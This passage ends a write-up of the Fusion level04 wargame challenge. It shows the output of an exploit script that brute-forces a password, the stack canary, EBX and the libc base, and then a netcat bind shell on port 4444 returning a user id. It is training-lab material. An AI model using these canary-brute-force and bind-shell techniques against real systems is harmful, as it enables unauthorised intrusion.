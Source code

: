 Now, lets try it:

```lang-bash line-numbers 
fusion@fusion:~$ python fusion04.py
[+] Bruteforcing password ...
[+] Eureka 4D4fqSa0fM477TS5
[+] Validating password ...
[+] Server response HTTP/1.0 200 Ok
[+] Searching Canary offset. Starting with 2000 ...
[+] Server response *** stack smashing detected ***: /opt/fusion/bin/level04 terminated
[+] Canary offset: 2026
[+] Bruteforcing Canary ...
[+] Found canary byte: 0x0
[+] Found canary byte: 0x52
[+] Found canary byte: 0xb9
[+] Found canary byte: 0x57
[+] Canary found: 0052b957
[+] Bruteforcing EBX ...
[+] Found EBX byte: 0x18
[+] Found EBX byte: 0xa1
[+] Found EBX byte: 0x78
[+] Found EBX byte: 0xb7
[+] EBX found: 18a178b7
[+] Binary loaded at address: 0xb7786000L
[+] Bruteforcing libc base address
```

After a couple of minutes the shell will be waiting for us:

```lang-bash line-numbers 
fusion@fusion:~$ sudo netstat -natp | grep LISTEN
tcp        0      0 0.0.0.0:20002           0.0.0.0:*               LISTEN      1017/level02
tcp        0      0 0.0.0.0:20003           0.0.0.0:*               LISTEN      1005/level03
tcp        0      0 0.0.0.0:20004           0.0.0.0:*               LISTEN      29795/level04
tcp        0      0 0.0.0.0:20005           0.0.0.0:*               LISTEN      963/level05
tcp        0      0 0.0.0.0:20006           0.0.0.0:*               LISTEN      870/level06
tcp        0      0 0.0.0.0:20008           0.0.0.0:*               LISTEN      837/level08
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      691/sshd
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      788/nc
tcp        0      0 0.0.0.0:20000           0.0.0.0:*               LISTEN      1047/level00
tcp        0      0 0.0.0.0:20001           0.0.0.0:*               LISTEN      1031/level01
tcp6       0      0 :::22                   :::*                    LISTEN      691/sshd
fusion@fusion:~$ nc localhost 4444
id
uid=20004 gid=20004 groups=20004
```

Thanks for reading!
